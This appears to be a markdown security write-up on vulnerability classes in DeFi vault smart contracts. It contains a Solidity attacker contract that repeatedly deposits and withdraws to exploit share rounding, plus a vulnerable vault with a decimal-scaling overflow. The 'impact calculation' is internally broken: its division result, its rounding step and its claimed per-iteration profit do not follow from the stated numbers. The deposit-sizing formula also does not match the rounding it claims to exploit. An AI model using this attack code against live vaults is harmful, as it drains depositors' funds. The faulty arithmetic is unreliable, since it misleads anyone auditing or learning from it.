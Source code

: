 ## Vulnerability Classes

### 1. Rounding Exploitation

**The Attack Pattern**:
```solidity
contract RoundingExploit {
    // Attacker repeatedly deposits amounts that round favorably
    function attack(Vault vault, uint256 iterations) external {
        for (uint256 i = 0; i < iterations; i++) {
            // Deposit amount that rounds up in shares
            uint256 depositAmount = calculateOptimalDeposit(vault);
            vault.deposit(depositAmount);
            
            // Immediately withdraw, potentially getting more back
            vault.withdraw(vault.balanceOf(address(this)));
        }
    }
    
    function calculateOptimalDeposit(Vault vault) internal view returns (uint256) {
        uint256 totalAssets = vault.totalAssets();
        uint256 totalSupply = vault.totalSupply();
        
        // Find amount where rounding favors attacker
        // This exploits: (assets * totalSupply + totalAssets - 1) / totalAssets
        return (totalAssets - 1) / totalSupply + 1;
    }
}
```

**Real Impact Calculation**:
```solidity
// Vault state: totalAssets = 1_000_001 (USDC), totalSupply = 1_000_000_000_000_000_000
// Attacker deposits: 2 units (0.000002 USDC)

// Shares minted (with rounding up):
shares = (2 * 1_000_000_000_000_000_000 + 1_000_001 - 1) / 1_000_001
       = 2_000_000_000_000_000_000 / 1_000_001
       = 1_999_998_000_003 (rounds to 1_999_999_000_000)

// On withdrawal, gets back:
assets = (1_999_999_000_000 * 1_000_001) / 1_000_000_000_000_000_000
       = 2.000001 (profits 0.000001 USDC per iteration)
```

### 2. Decimal Mismatch Overflow

```solidity
// VULNERABLE CODE
contract DecimalMismatchVault {
    uint8 public constant SHARE_DECIMALS = 18;
    mapping(address => uint8) public assetDecimals;
    
    function deposit(address asset, uint256 amount) external {
        uint8 decimals = assetDecimals[asset];
        
        // DANGER: Can overflow for large amounts with 6-decimal assets
        uint256 normalizedAmount = amount * 10**(SHARE_DECIMALS - decimals);
        
        // If amount = 2^256 / 10^12, this overflows
        _mintShares(msg.sender, normalizedAmount);
    }
}

```